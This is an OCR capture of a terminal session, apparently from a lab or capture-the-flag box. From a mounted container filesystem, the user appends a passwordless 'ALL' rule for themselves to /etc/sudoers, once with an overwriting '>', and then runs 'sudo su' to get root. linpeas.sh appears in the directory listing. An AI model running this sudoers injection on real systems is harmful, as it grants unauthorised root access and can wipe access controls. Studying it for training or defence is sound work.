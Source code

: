# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d

/mnt/root # ^[[45;13Recho "namelessone   ALL=(ALL:ALL) NOPASSWD:ALL" > ./etc/sudoers
echo "namelessone   ALL=(ALL:ALL) NOPASSWD:ALL" >> ./etc/sudoers

/mnt/root # ^[[45;13Rexit
exit

namelessone@anonymous:/tmp$ sudo su
sudo su

root@anonymous:/tmp# ls -la

ls -la
total 3500
drwxrwxrwt 10 root        root           4096 Aug 26 02:04 .
drwxrwxrwx 24 root        root           4096 May 12 17:04 ..
-rw-rw-r--  1 namelessone namelessone 3183830 Aug 26 02:01 alpine-v3.12-x86_64-20200825_2201.tar.gz
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .font-unix
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .ICE-unix
-rwxrwxr-x  1 namelessone namelessone  233677 Aug 26 01:44 linpeas.sh
-rw-rw-r--  1 namelessone namelessone  116169 Aug 26 01:47 lin.txt
drwx------  3 root        root           4096 Aug 26 00:56 systemd-private-1585904eea1a48b1b6e898fd0bf5311b-systemd-resolved.service-VzIsUN
drwx------  3 root        root           4096 Aug 26 00:56 systemd-private-1585904eea1a48b1b6e898fd0bf5311b-systemd-timesyncd.service-QkuX3C
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .Test-unix
drwx------  2 namelessone namelessone    4096 Aug 26 01:47 tmux-1000
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .X11-unix
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .XIM-unix

